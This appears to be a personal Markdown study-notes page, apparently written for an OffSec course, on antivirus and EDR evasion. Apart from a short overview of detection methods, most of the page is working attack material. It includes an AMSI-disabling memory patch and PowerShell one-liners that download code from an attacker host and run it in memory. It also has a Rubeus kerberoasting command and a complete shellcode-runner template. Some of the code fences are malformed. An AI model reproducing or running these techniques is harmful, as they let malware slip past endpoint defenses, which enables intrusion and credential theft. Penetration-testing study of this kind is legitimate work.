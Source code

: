 ```yaml
---
layout: blank
pagetitle: Antivirus Evasion
---
```


## EDRs
- 7 general components:
    - File Engine
    - Memory Engine
    - Network Engine
    - Disassembler
    - Emulator/Sandbox
    - Browser Plugin
    - Machine Learning Engine
- Detection methods:
    - Signature
        - Hash the malware. If it matches, it's a virus
    - Heuristic
        - Achieved by stepping through instruction set of a binary file and searching for patterns
    - Behavioral
        - Execute the file in an emulated environment and watching for suspicious actions
    - Machine Learning

## Bypassing Detection

**On-disk Evasion**
- Obfuscators can be marginally effective
- _Crypter_ cryptographically alters code and only decrypts in memory
    - Encryption is one of the most effective AV evasion techniques
- Anti-reversing, Anti-debugging, VM detection
- Software protectors like _Anti-copy_
- _The Enigma Protector_ can successfully bypass antiviruses 

**In-Memory Evasion**
- Injecting into the memory of another process
    - Use OpenProcess to obtain a valid HANDLE
    - Use VirtualAllocEx to allocate memory in the context of the process with that HANDLE
    - After memory allocated, copy the malicious payload to the new allocate dmemory
- DLL Injection
    - Loads a malicious DLL from disk using LoadLibrary API
        - LoadLibrary must load DLL from disk
    - Reflective DLL injection
        - Loads a DLL stored by attacker into process memory
- Process Hollowing
    - Launch non-malicious process in suspended state
    - Remove process image and replace with malicious executable image
    - Resume process
- Inline hooking
    - Modify memory to introduce a hook into malicious code, returning back to original point after execution

## Evasion in Practice
- Use AntiScan.me to test malware if target AV vendor is unknown, which doesn't submit samples to third-parties
- DISABLE AUTOMATIC SAMPLE SUBMISSION TO TEST ON DEFENDER
- **Thread Injection**
    - Powershell scripts can be really difficult to fingerprint, so changing things like variable names can actually help
        - If running scripts is disabled, use `-ExecutionPolicy Bypass` flag or `Set-ExecutionPolicy -ExecutionPolicy Unrestricted CurrentUser`
        - LMFAO
    - Example in Offsec:
        - Used a well-known memory injection PowerShell script, using msfvenom shellcode as the payload
        - Changed variable names and bypassed Avira antivirus
- **Automating AV evasion**
    - _Shellter_ is a popular shellcode injection tool capable of bypassing antivirus software
        - `sudo apt install shellter`
        - Best to inject into a non-well known process
        - Can use Meterpreter payloads
- DLL injection without touching disk
    - Share the DLL remotely with `sudo impacket-smbserver share ./`

## AMSI
- [Anti-Malware Scanning Interface](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
- Can be bypassed using a number of tricks, but the scripts are all recognized by AMSI
    - Techniques here: [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
    - Thus, we'll need to find the trigger and change the signature with variable renaming, function replacement, or encoding at runtime
        - Can also use ISESteroids or [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
    - [amsi.fail](https://amsi.fail/) - Great site for generating obfuscated powershell scripts that break/disable AMSI for current process
    - However, this won't bypass AMSI at the .net level - [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/]https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/
        - Thus, we also need the following script to bypass AMSI at the .net level (run with `(new-object system.net.webclient).downloadstring('http://{kali_ip:port}/amsi_rmouse.txt')|IEX`)
            - This loads and executes the script directly in memory

```
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

- We now have the ability to run anything we'd like, as long as it doesn't touch disk, which can be done like so:

```
$data=(New-Object System.Net.WebClient).DownloadData('http://{kali_IP:port}/{exe_binary}');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[{binary_name}.Program]::Main(@('{params}'));[Console]::SetOut($out);$sWriter.ToString()

## Thread Injection
- Operates within the process it's being executed from
- Rename the variables to bypass string detection

```

- If instead of dealing with executables we'd just like to use powershell, we can use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
    - `iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpPack.ps1 -o psp.ps1`
    - Insanely useful powershell script that has C# executables bundled into it as compiled base64 binaries
    - Run with `iex(new-object net.webclient).downloadstring('http://{kali_IP:port}/PowerSharpPack.ps1')` and `PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`, for example

# Import VirtualAlloc to allocate memory

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThread to create execution threads
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset to write arbitrary data to allocated memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```